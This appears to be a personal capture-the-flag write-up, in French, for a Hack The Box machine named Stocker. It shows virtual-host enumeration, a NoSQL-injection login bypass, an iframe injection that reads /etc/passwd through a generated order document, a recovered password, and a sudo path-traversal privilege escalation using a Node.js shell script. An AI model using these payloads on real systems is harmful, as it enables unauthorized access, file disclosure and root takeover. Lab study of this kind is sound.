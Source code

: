 ```yaml
---
Platform: linux
Category: ctf
Difficulty: easy
Tags:
Status: pending
public: true
IP: 10.10.11.196
---
```


![[Stocker-1.png]]

```
└─# gobuster vhost -u stocker.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --append-domain
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] User Agent:      gobuster/3.4
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/02/06 23:13:46 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
Progress: 10409 / 220561 (4.72%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/02/06 23:14:15 Finished

```

vhost trouvé via vhost enumeration : dev.stocker.htb

Bypass de l'authent avec au format JSON une NoSQL injection :

```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 54
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login 
Cookie: connect.sid=s%3AFhbvDc7SEo_kF1-Bq2JuLGxucLWMeG5V.8UeivYzWZ%2BTMk30M8JbOTskUP1MWxYSf6%2BW3My5HcCo
Upgrade-Insecure-Requests: 1

{"username": {"$ne": null}, "password": {"$ne": null}}
```

Tentative de SSTI avec ${7*7} et

Brute force du username : angoose

Brute force du password : b3e795719e2a644f69838a593dd159ac

"$;|^{{}}''"

{"_id":"638f116eeb060210cbd83a93","title":"Toilet Paper","description":"It's toilet paper.","image":"toilet-paper.jpg","price":0.69,"currentStock":4212,"__v":0}

user length : 7  angoose

password length : 32 chars

il y a un endpoint /api/products

							/api/po/

						
- il y a peut être d'autre endpoint en 2 chars ??
- revoir si on ne peut pas ajouter un product ou en modifier 1 ???
- pour peut être faire une SSTI ou LFI (via l'image) ?
- Voir à rebruteforcer et lister les bad chars (status  != 302)
	- voir ce qu'on pourraît faire avec ca ...?
					------------------
SSFI :

```
POST /api/order HTTP/1.1

Host: dev.stocker.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://dev.stocker.htb/stock

Content-Type: application/json

Origin: http://dev.stocker.htb

Content-Length: 214

Connection: close

Cookie: connect.sid=s%3Avl0rPp-i53IWRGNVdk7aCDRGnBn-yuyG.InPe1bsghz6TrAW2SEdKTwYuWY%2FTpy0bRLDr3Dh5jME



{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe src=/etc/passwd height=900 width=500></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

password : IHeardPassphrasesArePrettySecure (from /var/www/dev/index.js)

privesc

```
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js

```

using sudo path traversal

```bash
# cat /tmp/rebrec/shell.js
const { spawn } = require('child_process')
const shell = spawn('sh',[], { stdio: 'inherit' })
shell.on('close',(code)=>{console.log('[shell] terminated :',code)})
```

```bash

```sudo /usr/bin/node /usr/local/scripts/../../../../../tmp/rebrec/shell.js


```
